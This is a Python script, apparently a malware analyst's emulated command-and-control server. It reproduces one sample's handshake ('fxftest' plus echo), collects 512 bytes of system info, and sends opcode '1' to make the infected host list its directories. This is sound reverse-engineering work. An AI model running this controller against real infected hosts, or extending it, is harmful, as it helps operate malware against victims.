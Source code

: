 #!/usr/bin/env python3
# -*- coding: utf-8 -*-

import socket, time, sys

HOST = "0.0.0.0"
PORT = 443
RECV_TIMEOUT_S = 10.0
IDLE_CLOSE_S   = 15.0

HELLO_CLIENT = b"fxftest"              # 7 bytes que envía el malware
HELLO_SERVER = HELLO_CLIENT + b"\x00"  # eco de 8 bytes que espera el malware

CMD_LEN = 0x104
OPCODE_ASCII = b"1"   # <- '1' = 0x31 (opcode listar directorios)

def hexdump(data: bytes, width: int = 16) -> str:
    tochar = lambda b: chr(b) if 32 <= b <= 126 else "."
    lines = []
    for off in range(0, len(data), width):
        chunk = data[off:off+width]
        hexpart = " ".join(f"{b:02x}" for b in chunk)
        asciip  = "".join(tochar(b) for b in chunk)
        lines.append(f"{off:08x}  {hexpart:<{width*3}}  {asciip}")
    return "\n".join(lines) if lines else "(vacío)"

def recv_exact(sock: socket.socket, n: int) -> bytes:
    sock.settimeout(RECV_TIMEOUT_S)
    buf = bytearray()
    while len(buf) < n:
        chunk = sock.recv(n - len(buf))
        if not chunk:
            raise ConnectionError("Conexión cerrada por el cliente")
        buf += chunk
    return bytes(buf)

def recv_until_idle(sock: socket.socket, idle_s: float) -> bytes:
    sock.settimeout(0.2)
    buf = bytearray()
    last = time.time()
    while True:
        try:
            chunk = sock.recv(8192)
            if chunk:
                buf += chunk
                last = time.time()
            else:
                break
        except socket.timeout:
            if time.time() - last > idle_s:
                break
        except ConnectionResetError:
            break
    return bytes(buf)

def send_all(sock: socket.socket, data: bytes, desc: str):
    sock.sendall(data)
    print(f"[*] Enviado {desc} ({len(data)} bytes)")
    print("    ASCII:", repr(data[:256]))
    print("    HEX:\n" + hexdump(data))

def handle_client(conn: socket.socket, addr):
    print(f"[+] Conexión de {addr[0]}:{addr[1]}")
    try:
        # 1) hello del cliente
        hello = recv_exact(conn, len(HELLO_CLIENT))
        print(f"[*] Recibido hello ({len(hello)}): {hello!r}")
        print("    HEX:\n" + hexdump(hello))

        # 2) eco del servidor
        send_all(conn, HELLO_SERVER, "handshake/eco")

        # 3) sysinfo (512 bytes)
        sysinfo = recv_exact(conn, 512)
        print("[*] Recibido sysinfo (512 bytes)")
        print("    HEX:\n" + hexdump(sysinfo))

        # 4) comando 0x104 con opcode ASCII en el primer byte
        cmd = bytearray(CMD_LEN)
        cmd[0:1] = OPCODE_ASCII  # '1' = 0x31
        time.sleep(0.2)          # pequeña pausa
        send_all(conn, bytes(cmd), f"comando (opcode ASCII={OPCODE_ASCII!r})")

        # 5) recibir la salida del opcode
        print(f"[*] Esperando respuesta del opcode {OPCODE_ASCII!r} (inactividad {IDLE_CLOSE_S}s)...")
        data = recv_until_idle(conn, IDLE_CLOSE_S)
        if data:
            print(f"[*] Recibidos {len(data)} bytes de respuesta")
            preview = data if len(data) <= 8192 else data[:8192]
            print("    ASCII (truncada):", repr(preview[:512]))
            print("    HEX (truncada):\n" + hexdump(preview))
            if len(data) > 8192:
                print(f"    ... ({len(data) - 8192} bytes adicionales)")
        else:
            print("[*] No llegó salida del opcode dentro del tiempo de inactividad.")
    except (socket.timeout, ConnectionError) as e:
        print(f"[!] Error/timeout: {e}")
    finally:
        try:
            conn.shutdown(socket.SHUT_RDWR)
        except Exception:
            pass
        conn.close()
        print("[*] Conexión cerrada.\n")

def main():
    port = PORT
    if len(sys.argv) == 2:
        port = int(sys.argv[1])
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        s.bind((HOST, port))
        s.listen(5)
        print(f"[*] Escuchando en {HOST}:{port}")
        while True:
            conn, addr = s.accept()
            handle_client(conn, addr)

if __name__ == "__main__":
    try:
        main()
    except KeyboardInterrupt:
        print("\n[+] Saliendo por Ctrl+C")

